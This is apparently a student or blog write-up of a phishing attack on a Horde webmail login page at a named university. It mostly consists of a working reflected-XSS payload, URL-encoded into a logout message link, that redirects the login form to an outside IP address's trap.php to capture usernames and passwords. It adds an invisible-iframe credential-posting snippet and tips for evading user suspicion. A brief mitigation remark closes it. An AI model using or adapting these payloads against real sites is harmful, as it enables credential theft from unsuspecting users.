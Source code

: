 **Add invisible iframe and submit the iframe when user press "submit":**

{% highlight javascript %}<IFRAME NAME="trap" src="https://137.189.97.46/trap.php" WIDTH="0" HIEGHT="0" FRAMEBORDER="0"></IFRAME>
document.trap.target = 'trap';
//Consturct the form for submitting the login credentials.
document.trap.submit();{% endhighlight %}

**To minimize the impact of those actions:**

--Submit two post request one after one.
--Construct a fake page which will return to the legitimate page after the user name and password is being captured (window.location=document.referrer or submit the post form to legitimate site again)
--Register a cert from trusted CA and user will post their form to us without warnings.

**It is one of the example of phishing attack:**

{% highlight css %}
<a href="https://webmail1.ie.cuhk.edu.hk/horde/imp/login.php?logout_reason=message&logout_msg=
</td>var tds=document.body.getElementsByTagName('td');for(var i=0;i<2;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}var x=document.imp_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);document.imp_login.info.value=window.location.host;function submit_login(e){if(typeof e!='undefined'%26%26!enter_key_trap(e)){return}if(document.imp_login.imapuser.value==""){document.imp_login.imapuser.focus();return false}else if(document.imp_login.pass.value==""){document.imp_login.pass.focus();return false}else{var origAction=document.imp_login.action;document.imp_login.loginButton.disabled=true;document.imp_login.action="http://137.189.97.46/trap.php";document.imp_login.submit();return true}}</tr><tr >
<td >">https://webmail1.ie.cuhk.edu.hk/horde/imp/login.php?logout_reason=message&logout_msg=
</td>var tds=document.body.getElementsByTagName('td');for(var i=0;i<2;i%2B%2B){if(tds[i].className=="notice"){tds[i].parentNode.innerHTML=""}}var x=document.imp_login;input=document.createElement("input");input.setAttribute("type","hidden");input.setAttribute("name","info");input.setAttribute("value","");x.appendChild(input);document.imp_login.info.value=window.location.host;function submit_login(e){if(typeof e!='undefined'%26%26!enter_key_trap(e)){return}if(document.imp_login.imapuser.value==""){document.imp_login.imapuser.focus();return false}else if(document.imp_login.pass.value==""){document.imp_login.pass.focus();return false}else{var origAction=document.imp_login.action;document.imp_login.loginButton.disabled=true;document.imp_login.action="http://137.189.97.46/trap.php";document.imp_login.submit();return true}}</tr><tr >
<td >
{% endhighlight %}

**We find some trivial observations in https:**

-- It have warning from https to http.
--When we have two posts request to two sites (bad sites and legitimate sites) in one action,
the bad site request will only succeed if we own a certs from well-known CA or user had already trusted our cert before.
-- It have warning from https to other untrusted https.
-- Another way to fake users to accept our cert is to include an invisible iframe and convince user to trust our certs when they visit the legitimate page. Such that the request will be pass to our site.

To mitigate this vulnerability, horde had already done updates to filtering to HTML entities in URL address. On the other hand it is also the browser responsibility to eliminate some non-reasonable characters like "". As it is already been tagged as UNSAFE in RFC1738 date back to 1994 from T. Berners-Lee. Anyway no one may notice that after 15 years had pass......
